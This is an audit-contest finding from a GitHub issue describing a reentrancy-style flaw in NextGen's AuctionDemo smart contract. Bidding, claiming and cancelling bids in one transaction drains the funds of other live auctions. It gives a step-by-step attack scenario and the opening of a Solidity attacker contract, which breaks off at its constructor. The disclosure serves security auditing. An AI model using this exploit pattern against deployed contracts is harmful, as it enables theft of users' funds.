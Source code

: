# Original link
https://github.com/code-423n4/2023-10-nextgen-findings/issues/1904
# Lines of code

https://github.com/code-423n4/2023-10-nextgen/blob/08a56bacd286ee52433670f3bb73a0e4a4525dd4/smart-contracts/AuctionDemo.sol#L105


# Vulnerability details

## Impact
A malicious attacker can steal the funds from the AuctionDemo contract by calling `claimAuction` and `cancelAllBids` in one transaction if, right before the auction is finished, the auctionContract still has more funds from other live auctions.

## Proof of Concept
Suppose there is two auctions running, for a token 1 and token 2

1. Alice places a 3 ETH bid for a token 1
2. Bobby place a 10 ETH bid for a token 2
3. Now the auction contract has 13 ETH in balance
4. During the last second of auction, attacker steps in and does the following in one transaction:
    - Places a new 10 ETH bid for a token 1 (auction contract balance now = 23 ETH)
    - Claims the auction to get the token (auction contract sends 3 ETH back to Alice, and 10 ETH to auction contract owner)
    - Cancels his bid to get the remaining 10 ETH back. As a result, the contract balance now equals 0.

### To replicate in your local environment:
1. Add `BidAttacker.sol` to `hardhat/smart-contracts`. Here is an example (each step is highlighted in the comments):

```solidity
  File: hardhat/smart-contracts/BidAttacker.sol

// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "./IERC721.sol";
import "./Ownable.sol";
import "./IMinterContract.sol";
import "./IERC721Receiver.sol";

interface IAuctionDemo {
    function returnHighestBid(uint256 _tokenId) external view returns (uint256);
    function participateToAuction(uint256 _tokenId) external payable;
    function claimAuction(uint256 _tokenId) external;
    function cancelAllBids(uint256 _tokenId) external;
}

contract BidAttacker is Ownable {
    IMinterContract public minterContract;
    IAuctionDemo public auctionContract;
    IERC721 public gencoreContract;

    bool public isHacked;
    uint256 tokenId; // keep in storage for later withdrawal

    constructor(address _auctionContractAddress, address _minterContractAddress, address _gencoreContractAddress) {
```
